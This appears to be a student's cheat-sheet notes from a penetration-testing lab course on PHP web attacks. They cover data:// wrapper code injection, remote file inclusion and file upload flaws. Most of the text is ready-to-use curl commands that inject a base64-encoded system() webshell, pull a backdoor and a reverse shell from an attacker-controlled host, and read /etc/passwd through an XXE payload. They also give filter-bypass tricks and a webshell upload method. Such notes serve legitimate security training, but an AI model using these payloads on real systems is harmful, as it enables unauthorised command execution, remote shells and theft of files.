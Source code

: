 * Doesn't work in Default PHP install. Requires `allow_url_include` to be enabled
```shell
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>" # no encoding
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls" # base64 encoded

```

## Remote File Inclusion (RFI)
* Include files from remote system, over SMB or HTTP
* Like data://, doesn't work in Default PHP install. 
* Requires `allow_url_include` to be enabled
* Enumerate the same way as LFI or DIR Traversal
* Common scenarios: WebApp loads files, like library or app data, from remote systems
* Less common than LFI, as specific requirements must be in place
* user a webshell in RFI, `/usr/share/webshells/php/simple-backdoor.php`
```shell
python3 -m http.server 80 # start web server to host shell file

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.203/simple-backdoor.php&cmd=ls"  
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.203/phprevshell9.php"  

```
## File Upload Vulnerability
* 2 main types
    1. File we upload is executable by WebApp, i.e. .php file and PHP is used by WebApp
    2. File upload is combined with another VULN, like DIR traversal.
        * i.e. : Upload a SSH authorized key files with DIR Traversal to users ~/.ssh/ directory
* Can be combined with XSS or XXE - XML External Entity
    * XXE is when XML contains URI to external entity (https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
    ```xml
        <?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
        <foo>&xxe;</foo>
    ``` 
 ```bash
 echo "this is a test" > test.txt
 ```
* Try using different extensions, i.e. .phps, or .php7
* Try changing case, .php = PHp or pHp
* [Base64 online encoder](https://www.base64encode.org/)
### WebShell Methodology
1. Identify framework and languages WebApp is using, to determine type of shell we need
2. Find way to upload, location needs to be accessible to us
3. Work around filters as neccessary, try uploading .txt and then renaming to target, .php. or whatever
4. Send commands to webshell
